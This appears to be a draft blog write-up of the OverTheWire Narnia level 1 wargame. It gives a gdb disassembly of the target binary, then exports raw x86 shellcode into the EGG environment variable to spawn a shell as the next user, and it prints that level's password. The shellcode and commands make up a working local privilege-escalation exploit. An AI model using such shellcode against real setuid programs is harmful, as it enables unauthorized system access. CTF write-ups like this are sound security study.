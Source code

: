 +++
title = "Over the wire - narnia01"
description = "Over the wire - narnia01"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-01"
project_url = "https://greyhat.dk/over-the-wire-narnia-01"
type = "post"
+++



(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   ebp
   0x0804847e <+1>:	mov    ebp,esp
   0x08048480 <+3>:	and    esp,0xfffffff0
   0x08048483 <+6>:	sub    esp,0x20
   0x08048486 <+9>:	mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   0x08048496 <+25>:	mov    DWORD PTR [esp],0x8048574
   0x0804849d <+32>:	call   0x8048340 <puts@plt>
   0x080484a2 <+37>:	mov    DWORD PTR [esp],0x1
   0x080484a9 <+44>:	call   0x8048360 <exit@plt>
   0x080484ae <+49>:	mov    DWORD PTR [esp],0x80485a9
   0x080484b5 <+56>:	call   0x8048340 <puts@plt>
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   0x080484d0 <+83>:	mov    eax,0x0
   0x080484d5 <+88>:	leave
   0x080484d6 <+89>:	ret
End of assembler dump.


narnia1@melinda:/narnia$ export EGG=$(python -c 'print "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
